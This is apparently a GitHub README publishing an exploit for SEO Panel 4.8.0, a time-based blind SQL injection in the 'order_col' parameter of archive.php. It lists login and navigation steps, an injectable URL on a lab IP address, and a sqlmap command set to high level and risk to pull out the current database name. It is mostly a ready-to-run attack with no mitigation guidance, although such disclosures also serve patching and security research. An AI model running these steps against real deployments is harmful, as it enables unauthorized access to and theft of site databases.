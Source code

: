 # SEO-Panel-4.8.0-SQL-Injection  
# Exploit Title: SEO Panel 4.8.0 - 'order_col' Blind SQL Injection
# Date: 22/03/2021
# Vendor Homepage: https://www.seopanel.org/
# Software Link: https://github.com/seopanel/Seo-Panel/releases/tag/4.8.0
# Version: 4.8.0   

1. Login to SEO admin Panel  
2. go 192.168.100.156/seopanel/archive.php?from_time=2021-03-08&order_col=name&order_val=DESC&report_type=website-search-reports&search_name=&sec=viewWebsiteSearchSummary&to_time=2021-03-09&website_id=0  
![image](https://github.com/BigTiger2020/SEO-Panel-4.8.0-SQL-Injection/blob/main/2.png)  
3. User sqlmap Automated way:  
sqlmap.py -r 6.txt  --batch --level 5 --risk 3 --dbms=mysql --current-db --technique=T --flush-session  
![image](https://github.com/BigTiger2020/SEO-Panel-4.8.0-SQL-Injection/blob/main/1.png)

